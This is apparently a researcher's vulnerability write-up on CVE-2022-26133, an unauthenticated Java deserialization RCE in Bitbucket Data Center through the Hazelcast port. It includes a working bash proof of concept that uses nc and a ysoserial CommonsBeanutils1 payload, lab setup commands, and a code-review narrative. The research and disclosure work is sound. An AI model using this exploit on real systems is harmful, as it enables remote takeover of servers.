 ## Introduction


This write-up provides an overview of CVE-2022-26133 - Bitbucket Data Center - Java Deserialization Vulnerability [[1]](https://confluence.atlassian.com/security/multiple-products-security-advisory-hazelcast-vulnerable-to-remote-code-execution-cve-2016-10750-1116292387.html). A remote, unauthenticated attacker can exploit this vulnerability by sending a crafted packet to the Hazelcast port and achieve Remote Code Execution (RCE) on the Bitbucket Data Center.  This vulnerability is similar to CVE-2016-10750 [[2]](https://github.com/hazelcast/hazelcast/issues/8024) but is specific to Bitbucket. 



## TL;DR

Bitbucket Data Center makes use of Hazelcast [[3]](https://github.com/hazelcast/hazelcast) for in-memory data caching; by default port 5701 is used for Hazelcast. If an attacker could reach the Hazelcast port of a Bitbucket instance with a crafted network packet Bitbucket responds with the Cluster name of the Data Center Instance. If this cluster name is appended with a serialized payload [[4]](https://github.com/frohoff/ysoserial) and sent again to the Hazelcast port, the payload is deserialized at the cluster node leading to remote code execution on the node. A typical packet structure is as follows:


### Packet Structure of the Payload

```shell

--------------------------------------------------------------------------------------------
|                      |                   |                     |                         |
| size of group name   | group name of     | 0xFF 0xFF 0xFF 0x9C | serialized paylod       |
|       (4 bytes)      | Bitbucket cluster |                     | (e.g CommonsBeanutils1) |
--------------------------------------------------------------------------------------------
```

### POC

```shell

#!/usr/bin/env bash

BITBUCKET_IP=${1:-'127.0.0.1'}
BITBUCKET_HAZELCAST_PORT=${2:-'5701'}
YSOSERIAL_JAR=${3:-'/home/snowyowl/workspace/tools/ysoserial/ysoserial-master-SNAPSHOT.jar'}

# send a dummy probe packet to retrieve the cluster name
# e.g the below sets the length as 2 bytes and sends a dummy 2 bytes
printf "\x00\x00\x00\x02\x73\x61" | nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT" > cluster-name.bin

# generate the serialized payload using ysoserial with the CommonsBeanutils1 gadget.
java -jar "$YSOSERIAL_JAR" CommonsBeanutils1 xcalc > CommonsBeanutils1.bin

# append header packets to the serialized payload, this is required for the hazelcast to correctly deserialize the payload
# create the final payload by joining the cluster name and the serialized payload with the header.
printf "\xFF\xFF\xFF\x9C" | cat cluster-name.bin - CommonsBeanutils1.bin > payload.bin

# send the payload to the bitbucket cluster
nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT" < payload.bin

```


### The Vulnerability

The detection of the vulnerability primarily involved a white box testing approach. As detailed in the Hazelcast issue report [[2]](https://github.com/hazelcast/hazelcast/issues/8024), CVE-2016-10750 primarily involved modifying the Hazelcast cluster join procedure to include a serialized payload (e.g CommonsBeanutils1). However this approach was failing on Bitbucket Data Center. 

To further analyze the issue the Bitbucket jar files was decompield and source code was analyzed in conjunction to the Hazelcast reference manual [[5]](https://docs.hazelcast.com/imdg/3.12/). A rough sequence diagram was created along the way to better understand how the JoinRequest was processed inside the Bitbucket node. 

It has been observed that hazelcast join sequence is intercepted by a com.atlassian.stash.internal.cluster.ClusterJoinSocketInterceptor class that implements com.hazelcast.nio.MemberSocketInterceptor interface [[5]](https://docs.hazelcast.com/imdg/3.12/security/socket-interceptor). The ClusterJoinSocketInterceptor relied on com.atlassian.stash.internal.cluster.SharedSecretClusterAuthenticator class to perform a basic authentication using cluster name and password that was set during the Bitbucket Data Center Installation. To restate it differently a custom network authentication protocol has been implemented inside SharedSecretClusterAuthenticator on top of the Hazelcast JoinRequest. So initally it seemed that the exploit was closed on the Bitbucket end.


Inspired by the excellent research of GHSL researcher Man Yue Mo [[6]](https://securitylab.github.com/research/in-memory-data-grid-vulnerabilities/) a second round of manual code review was performed and a readObject method was noticed inside the SharedSecretClusterAuthenticator. The runMutualChallengeResponse method inside the SharedSecretClusterAuthenticator was invoking a receiveObject that was in-turn using a readObject method on the raw input stream from the Hazelcast port. It would have been a lot faster, if CodeQL could have been used for this analysis however only the decompileld source was available and using CodeQL without building the source code seemed quite challenging.  


![runMutualChallengeResponse](images/runMutualChallengeResponse.png)

To reach this execution path the GroupName (cluster name) of the Bitbucket node was required. Luckily this was directly accessible by sending a probe to the HazelCast port.


![verifyGroupName](images/verifyGroupName.png)

 The probe is a nothing but a basic TCP packet with the data bytes set as per the below structure.

```shell
------------------------------------------------
|                          |                   |
| Size of following field  |    random bytes   |
|      (4 bytes )          |    (size bytes)   |
------------------------------------------------

```

Bitbucket server responds with the groupname of the cluster prepended with the length (in bytes) of the group name. This response packet can then be used directly in crafting the final payload.

```shell

# send a dummy probe packet to retrieve the cluster name
# e.g the below sets the length as 2 bytes and sends  2 bytes (don't care - dummy bytes)
printf "\x00\x00\x00\x02\x73\x61" | nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT"

```






### Exploit

1. Use the below commands to create Bitbucket Data Center cluster on docker

```shell

git clone https://github.com/snowyyowl/writeups.git

cd CVE-2022-26133/scripts

# setup the first node
./setup-bitbucket-docker.sh --bitbucket-docker-base-port 3000  --bitbucket-version 7.20.0 -p bitbucket-v7-20  --bitbucket-setup-base-node

# complete the setup in the Web GUI and then stop the bitbucket instance (Ctrl + C )

# allow xauth from docker so that the calc can pop-up
xhost + 

# setup the subsequent node and the loadbalancer
./setup-bitbucket-docker.sh --bitbucket-docker-base-port 3000  --bitbucket-version 7.20.0 -p bitbucket-v7-20 

``` 

2. Run the POC script

```shell

./bitbucket-hazelcast-rce-poc.sh 

# update the port to Hazelcast port on the second node (e.g 3060) to get RCE on the second node

```

![hazelcast-rce](images/bitbucket-hazelcast-rce-poc.png)


#### Probe Packet to Query Cluster Name

![wireshark-query-bitbucket-cluster-name](images/wireshark-query-bitbucket-cluster-name.png)


#### Response Packet from Bitbucket

![wireshark-bitbucket-response-cluster-name](images/wireshark-bitbucket-response-cluster-name.png)


#### Payload to trigger RCE

![wireshark-bitbucket-payload](images/wireshark-bitbucket-payload.png)


The full wireshark capture may be downloaded from [here](wireshark/bitbucket-hazelcast-rce-wireshark.pcapng)

### Call Chain

![call-chain](images/BitBucketDeserializationCallChain.png)

#### Disclaimer

This write-up (including all the code fragments) has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. The author is not responsible or liable for misuse.

## References
1. [Multiple Products Security Advisory - Hazelcast Vulnerable To Remote Code Execution](https://confluence.atlassian.com/security/multiple-products-security-advisory-hazelcast-vulnerable-to-remote-code-execution-cve-2016-10750-1116292387.html)
1. [Hazelcast is vulnerable to untrusted deserialization remote code execution #8024](https://github.com/hazelcast/hazelcast/issues/8024)
1. [Hazelcast](https://github.com/hazelcast/hazelcast)
1. [ysoserial, Frohoff et al.](https://github.com/frohoff/ysoserial)
1. [Hazelcast Reference Manual](https://docs.hazelcast.com/imdg/3.12/)
1. [In-Memory Data Grid Applications: Finding Common Java Deserialization Vulnerabilities with CodeQL, Man Yue Mo](https://securitylab.github.com/research/in-memory-data-grid-vulnerabilities/)

